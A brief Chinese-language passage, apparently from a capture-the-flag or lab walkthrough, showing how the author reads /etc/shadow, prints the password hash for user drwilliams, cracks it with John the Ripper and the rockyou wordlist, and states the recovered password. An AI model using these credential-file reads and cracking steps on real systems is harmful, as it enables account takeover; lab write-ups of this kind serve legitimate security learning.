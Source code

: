 

查看shadow文件

```
cat /etc/shadow

drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/
```

![img](../图片/截图_2023-12-16_21-29-07.png)

复制到hash文件中，并用john进行爆破

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

爆破出密码为：qwe123!@#    drwilliams

![img](../图片/截图_2023-12-17_10-37-02.png)
